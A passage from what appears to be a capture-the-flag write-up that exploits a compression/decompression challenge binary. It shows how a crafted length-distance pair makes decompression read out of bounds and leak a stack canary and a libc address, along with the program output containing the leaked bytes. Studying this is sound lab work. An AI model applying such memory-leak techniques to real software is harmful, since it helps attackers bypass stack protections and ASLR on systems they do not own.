 Next, I found that at distance 4736 before the output buffer, we would find a stack canary and an address pointing somewhere inside libc (`_IO_2_1_stdout_`). As such, I used the helper program to encode the length-distance pair of length 24 and distance 4736 to leak these values. This resulted in the string `280C4001`. So if we decompress this string, we should get the stack canary and the libc address.

```
==============================================
  Welcome to the alpha version of Middle-Out  
          + Hendricks Codes engine!           
==============================================

==============================================
     Middle-Out + Hendricks Codes Engine
==============================================
  1. Compress
  2. Decompress
  3. Change Parameters
  4. Shuffle L-Tree
  5. Print L-Tree
  6. Exit
==============================================
  Please select an option: 1

Please enter the input string (hex format): AABBCCDDEEAABBCCDDEE

============= Compression Result =============
Compressed size         : 8 bytes
Decompressed size       : 10 bytes
Weissman score          : 1.250
Output (hex)            : AB769FB9FB0E9A04
==============================================

==============================================
     Middle-Out + Hendricks Codes Engine
==============================================
  1. Compress
  2. Decompress
  3. Change Parameters
  4. Shuffle L-Tree
  5. Print L-Tree
  6. Exit
==============================================
  Please select an option: 2

Please enter the input string (hex format): 280C4001

============ Decompression Result ============
Compressed size         : 5 bytes
Decompressed size       : 24 bytes
Weissman score          : 4.800
Output (hex)            : 0001CB1A377BA5D1000000000000000080B7817179730000
==============================================

==============================================
     Middle-Out + Hendricks Codes Engine
==============================================
  1. Compress
  2. Decompress
  3. Change Parameters
  4. Shuffle L-Tree
  5. Print L-Tree
  6. Exit
==============================================
```